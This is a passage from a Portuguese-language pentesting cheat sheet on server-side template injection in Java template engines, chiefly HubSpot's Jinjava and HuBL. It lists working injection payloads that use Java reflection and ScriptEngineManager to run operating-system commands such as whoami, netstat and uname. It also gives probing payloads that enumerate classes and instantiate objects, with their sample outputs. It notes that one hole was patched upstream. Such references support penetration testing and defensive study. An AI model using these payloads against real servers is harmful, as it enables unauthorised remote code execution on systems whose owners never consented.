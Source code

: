 ```java
{{ (1).TYPE
.forName('java.lang.String')
.constructors[0]
.newInstance(([bytes]).toArray()) }}
```
### Jinjava (Java)
```java
{{'a'.toUpperCase()}} would result in 'A'
{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206
```
Jinjava é um projeto de código aberto desenvolvido pela Hubspot, disponível em [https://github.com/HubSpot/jinjava/](https://github.com/HubSpot/jinjava/)

**Jinjava - Execução de comando**

Corrigido por [https://github.com/HubSpot/jinjava/pull/230](https://github.com/HubSpot/jinjava/pull/230)
```java
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```
**Mais informações**

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinjava](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinjava)

### Hubspot - HuBL (Java)

* `{% %}` delimitadores de instrução
* `{{ }}` delimitadores de expressão
* `{# #}` delimitadores de comentário
* `{{ request }}` - com.hubspot.content.hubl.context.TemplateContextRequest@23548206
* `{{'a'.toUpperCase()}}` - "A"
* `{{'a'.concat('b')}}` - "ab"
* `{{'a'.getClass()}}` - java.lang.String
* `{{request.getClass()}}` - class com.hubspot.content.hubl.context.TemplateContextRequest
* `{{request.getClass().getDeclaredMethods()[0]}}` - public boolean com.hubspot.content.hubl.context.TemplateContextRequest.isDebug()

Procure por "com.hubspot.content.hubl.context.TemplateContextRequest" e descobriu o [projeto Jinjava no Github](https://github.com/HubSpot/jinjava/).
```java
{{request.isDebug()}}
//output: False

//Using string 'a' to get an instance of class sun.misc.Launcher
{{'a'.getClass().forName('sun.misc.Launcher').newInstance()}}
//output: sun.misc.Launcher@715537d4

//It is also possible to get a new object of the Jinjava class
{{'a'.getClass().forName('com.hubspot.jinjava.JinjavaConfig').newInstance()}}
//output: com.hubspot.jinjava.JinjavaConfig@78a56797

```